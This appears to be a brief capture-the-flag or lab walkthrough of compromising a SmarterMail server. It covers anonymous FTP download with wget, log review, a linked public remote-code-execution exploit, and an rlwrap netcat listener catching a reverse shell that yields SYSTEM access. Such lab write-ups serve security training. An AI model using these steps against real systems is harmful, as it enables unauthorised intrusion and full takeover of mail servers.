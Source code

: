 # 21

Using `wget -r --user="Anonymous" --password="anonymous" ftp://192.168.182.65/` to get all files
![](attachment/91dece67de3136f9c730944feefd3f57.png)
Now to read all files in log folder:
`cat *`
![](attachment/23ccce20a122ec031b9ad32c0e527833.png)
it is a mail service for sure and searching for the directory structure on google leads us to believe it is SmarterMail![](attachment/2048232694d312380740349fb4a610db.png)

# 17001

Now targeting port 17001 for SmarterMail:
Using this exploit https://packetstormsecurity.com/files/160416/SmarterMail-6985-Remote-Code-Execution.html
Changing the Lhost and Host:
![](attachment/4657335bef0bd3b930c3cc6994236007.png)
```
rlwrap nc -nlvp 8000 
```
```
python3 smartermail.py
```
![](attachment/851042fe1ae15b6e3e608ab0238f3751.png)
![](attachment/7a01382f680f29b2ef24a79ba710c3e8.png)
We are directly nt authority/system

